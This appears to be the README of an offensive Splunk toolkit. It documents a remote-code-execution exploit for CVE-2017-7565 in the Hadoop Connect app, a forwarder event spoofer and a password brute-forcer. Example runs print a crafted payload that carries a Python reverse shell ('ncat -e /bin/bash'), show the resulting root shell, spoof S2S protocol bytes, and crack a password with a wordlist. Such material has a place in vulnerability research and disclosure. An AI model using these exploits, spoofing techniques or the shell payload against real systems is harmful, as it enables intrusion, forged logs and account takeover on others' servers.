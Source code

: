 ## [hdfs_exploit.sh]

Splunk Hadoop Connect Remote Code Execution - \[ CVE-2017-7565 \]

This script exploits path traversal vulnerability in Splunk app "Hadoop Connect"
export_hdfs.py script can be abused by specially crafted event to drop its contents
into /opt/splunk/bin/scripts/ executable directory.

This exploit need to meet several requirements:
* Ability to craft logs on system (see spooforward.py)
* Have HadoopConnect app installed

Usage:

        case "${option}"

        in
                h) rhost=${OPTARG};; # Remote host
		
                p) rport=${OPTARG};; # Remote port
		
                l) lhost=${OPTARG};; # Local host
		
                s) lport=${OPTARG};; # Local port
		
		o) proto=${OPTARG};; # Protocol [http|https]
		
		m) marker=${OPTARG};;# Unique string to search for
		
  	        u) uname=${OPTARG};; # Splunk user
		
		w) passw=${OPTARG};; # Splunk password
		
 	        c) scanhost="-c";;   # Scan host for spoofing capabilities
		
		e) spoof="NO";;      # Dont try to spoof event (already there)

Example:

```
▶ ~/DEV/splunk_tools ◀
root@postern ⌁ ./hdfs_exploit.sh -c -h 127.0.0.1 -m w00tw00tw00t

[i] Splunk forward spoofer v0.1

[i] Scanning host 127.0.0.1...

[+] Found active port: 9997

[DBG] [PLD] "\xfe\x03\nsource::.\thost::..\x02.\x022\x00\xfc\x03\xff\x06\xc4\xc0\x85\xcc\x9d\x9b\xf0\xa3\xe0\x01b\x01\x08\x97\xa1\xe5\xb6\x05\x03J.0\x04\x05_path\x0c/tmp/unknown\x04\x0f_MetaData:Index\x04mainY#!/usr/bin/python\nimport os;os.system('ncat -e /bin/bash 127.0.0.1 4444');# w00tw00tw00t "

[DBG] [RCV] '\x00\x00\x00\x9a\x00\x00\x00\x01\x00\x00\x00\x12__s2s_control_msg\x00\x00\x00\x00ocap_response=success;cap_flush_key=true;idx_can_send_hb=true;idx_can_recv_token=true;v4=true;channel_limit=300\x00\x00\x00\x00\x00\x00\x00\x00\x05_raw\x00'

[DBG] [FIN] PAYLOAD SUCCESSFULY SENT

[PWN] Waiting for shell...
Listening on [0.0.0.0] (family 0, port 4444)
nc -lvp${lport}
Connection from localhost 44056 received!
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/opt/splunk/etc/apps/search/bin
uname -a
Linux postern 4.8.0-kali2-amd64 #1 SMP Debian 4.8.15-1kali1 (2016-12-23) x86_64 GNU/Linux
```


## spooforward.py

\[i\] Splunk forward spoofer v0.1

USAGE: ./spooforward.py [options]:

	-r, --host <file>	Server address (indexer instance)
	-p, --port <address>	Server port (default: 9997)
	-s, --source <pid>	Spoofed source ex. udp:514
	-l, --shost <num>	Spoofed host address
	-t, --type <type>	Source type
	-i, --index <index>	Index to forward to ex. default, main
	-m, --message <message>	 Spoofed event content (limit: 255)
	-d, --debug	 Enable debugging
	-c, --check	 Scan host
	-h, --help	 This help message


Example:

```
▶ ~/DEV/splunk_tools ◀
root@postern ⌁ ./spooforward.py -c -d -r 127.0.0.1 -l spoofedaddr.net -i main -t spoofedtype -s spoofedsource  -m "some event message"

[i] Splunk forward spoofer v0.1

[i] Scanning host 127.0.0.1...

[+] Found active port: 9997

[DBG] [PLD] '\xfe\x03\x16source::spoofedsource\x16host::spoofedaddr.net\x0cspoofedtype\x022\x00\xfc\x03\xff\x06\xc4\xc0\x85\xcc\x9d\x9b\xf0\xa3\xe0\x01b\x01\x08\x97\xa1\xe5\xb6\x05\x03J.0\x04\x05_path\x0c/tmp/unknown\x04\x0f_MetaData:Index\x04main\x12some event message'

[DBG] [RCV] '\x00\x00\x00\x9a\x00\x00\x00\x01\x00\x00\x00\x12__s2s_control_msg\x00\x00\x00\x00ocap_response=success;cap_flush_key=true;idx_can_send_hb=true;idx_can_recv_token=true;v4=true;channel_limit=300\x00\x00\x00\x00\x00\x00\x00\x00\x05_raw\x00'

[DBG] [FIN] PAYLOAD SUCCESSFULY SENT
```


## [splunk_brute.sh]

```
▶ ~/DEV/splunk_tools ◀
root@postern ⌁ ./splunk_brute.sh test_acc /usr/share/wordlists/rockyou.txt 127.0.0.1 8000

[!] Bruteforcing password for test_acc on 127.0.0.1...
.......................................................
SUCCESS! U: test_acc P: 1234567890

...Terminated
```




